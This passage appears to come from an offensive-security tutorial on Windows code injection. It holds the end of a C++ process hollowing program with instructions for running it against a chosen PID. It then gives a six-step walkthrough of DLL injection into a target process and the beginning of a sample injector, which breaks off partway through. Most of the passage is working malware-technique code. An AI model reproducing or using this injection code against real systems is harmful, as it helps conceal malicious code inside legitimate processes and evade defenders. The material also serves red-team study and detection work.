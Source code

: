 ```cpp
	SetThreadContext(
		pVictimProcessInfo->hThread, 
		&victimContext);
	printf("[+] Victim process entry point set to replacement image entry point in EAX register\n");
	printf("\t[*] Value is 0x%08x\r\n", (UINT)pVictimHollowedAllocation + pNTHeaders->OptionalHeader.AddressOfEntryPoint);

	
	printf("[+] Resuming victim process primary thread...\n");
	ResumeThread(pVictimProcessInfo->hThread);

	printf("[+] Cleaning up\n");
	CloseHandle(pVictimProcessInfo->hThread);
	CloseHandle(pVictimProcessInfo->hProcess);
	VirtualFree(pReplacementImage, 0, MEM_RELEASE);

	return 0;
}
```

Compile the code into exe file, pick a process PID and then execute the process hollowing:

```
process-hollowing.exe PID
```

### DLL Injection

At a high-level DLL injection can be broken up into six steps:

1. Locate a target process to inject. At step one of DLL injection, we must locate a target thread. A thread can be located from a process using a trio of Windows API calls: `CreateToolhelp32Snapshot()`, `Process32First()`, and `Process32Next()`.
2. Open the target process. At step two, after the PID has been enumerated, we need to open the process. This can be accomplished from a variety of Windows API calls: `GetModuleHandle`, `GetProcAddress`, or `OpenProcess`.
3. Allocate memory region for malicious DLL. At step three, memory must be allocated for the provided malicious DLL to reside. As with most injectors, this can be accomplished using `VirtualAllocEx`.
4. Write the malicious DLL to allocated memory. At step four, we need to write the malicious DLL to the allocated memory location. We can use `WriteProcessMemory` to write to the allocated region.
5. Load and execute the malicious DLL. At step five, our malicious DLL is written to memory and all we need to do is load and execute it. To load the DLL we need to use `LoadLibrary`; imported from `kernel32`. Once loaded, `CreateRemoteThread` can be used to execute memory using `LoadLibrary` as the starting function. **Sample DLL Injector Code**

```cpp
#include <windows.h>
#include <stdio.h>
#include <tlhelp32.h>

DWORD getProcessId(const char *processName) {
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (hSnapshot) {
        PROCESSENTRY32 entry;
        entry.dwSize = sizeof(PROCESSENTRY32);
        if (Process32First(hSnapshot, &entry)) {
            do {
                if (!strcmp(entry.szExeFile, processName)) {
                    return entry.th32ProcessID;
                }
            } while (Process32Next(hSnapshot, &entry));
        }
    }
    else {
        return 0;
```